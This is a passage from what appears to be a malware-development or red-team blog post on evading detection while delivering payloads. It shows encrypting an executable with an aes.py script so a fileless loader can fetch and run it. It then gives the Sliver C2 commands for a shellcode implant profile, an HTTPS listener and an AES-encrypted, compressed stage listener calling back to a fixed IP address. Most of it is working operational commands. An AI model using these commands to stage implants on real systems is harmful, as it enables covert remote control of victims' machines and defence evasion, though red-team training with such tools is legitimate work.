 ![FilelessPELoader](/assets/images/maldev/FilelessPELoader-2.png)

The project comes with a custom `aes.py` script that can be used to encrypt any file we want. The idea is that our loader will fetch the encrypted binary (`cipher.bin`) together with a key (`key.bin`) in order to decrypt it.

```console
$ python3 aes.py ESSENTIAL_THEATER.exe
$ ls
aes.py cipher.bin key.bin ESSENTIAL_THEATER.exe
```

The generated files `cipher.bin` and `key.bin` can be passed to our loader as arguments. In the next section we will have a look at how we can make use of our loaders.

## Method 3: Custom Encrypted Stager
Sliver has built-in support for custom stagers making use of encryption and compression when serving stages. First we need to setup our profile, listener, and stage listener with the following command:

```console
$ sudo ./sliver-server_linux
[server] sliver > profiles new -b https://192.168.129.40:443 --skip-symbols --format shellcode --arch amd64 s3rp3nt
[server] sliver > https -L 192.168.129.40 -l 443
[server] sliver > stage-listener --url https://192.168.129.40:8443 --profile s3rp3nt -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t --aes-encrypt-iv 8y/B?E(G+KbPeShV
```
